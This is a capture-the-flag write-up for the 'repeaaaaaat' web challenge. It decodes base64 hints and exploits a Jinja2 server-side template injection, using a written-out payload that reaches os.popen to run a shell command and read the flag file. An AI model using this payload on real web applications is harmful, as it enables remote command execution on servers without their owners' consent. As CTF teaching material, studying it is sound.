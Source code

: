 **No files provided**

## 150 Web / repeaaaaaat ##

**Description**

> Can you repeaaaaaat?
> 
> <span style="color:#990000;">```http://104.154.106.182:5050```</span>
> 
> ```author: codacker```

**No files provided**

**Solution**

On the website we are presented with a script that replicates images whenever we scroll, but we can mostly ignore that. In the sourcecode, we find it says `Hello, (the repeating images)` followed by a comment.

The comment is always Base-64 encoded and is one of the following:

    L2xvbF9ub19vbmVfd2lsbF9zZWVfd2hhdHNfaGVyZQ==
    d2hhdF9hcmVfeW91X3NlYXJjaGluZ19mb3IK
    Lz9zZWNyZXQ9ZmxhZw==

These decode to:

    /lol_no_one_will_see_whats_here
    what_are_you_searching_for
    /?secret=flag

The first leads to another encoded string `aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2hcP3ZcPVBHakxoT2hNTFhjCg==`, which decodes to the URL of [this video](https://www.youtube.com/watch?v=PGjLhOhMLXc).

The second is similar, leading to [this video](https://www.youtube.com/watch?v=5rAOyh7YmEc).

But the final `/?secret=flag` clue is very important. Upon navigating to that URL, we are still on the front page with repeating images, but this time the source reads `Hello, (the repating images) flag`.

Here we can identify a template injection, e.g. when we do `/?secret={{'a'*3}}`, which produces `aaa` in the output. Here is a [useful cheatsheet](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) when dealing with SSTI (server-side template injection). There is no filtering on our input, so we just need to obtain a reference to e.g. the `os` module to do some shell stuff:

    {{"".__class__.__mro__[1].__subclasses__()[240].__init__.__globals__["sys"].modules["os"].popen("cat%20flag.txt").read()}}

Explanation:

 - `""` - a `str` instance
 - `.__class__` - its type
 - `.__mro__[1]` - its superclass, `object`
 - `.__subclasses__()` - its subclasses
 - `[240]` - (may differ from version to version), one of its subclasses, in this case `zipinfo.ZipFile`
 - `.__init__` - its constructor
 - `.__globals__` - the global variables available to that constructor
 - `["sys"]` - the `sys` module
 - `.modules` - references to other loaded modules
 - `["os"]` - the `os` module
 - `.popen` - the function to run a shell command

So we run `cat flag.txt` to obtain:

`encryptCTF{!nj3c7!0n5_4r3_b4D}`
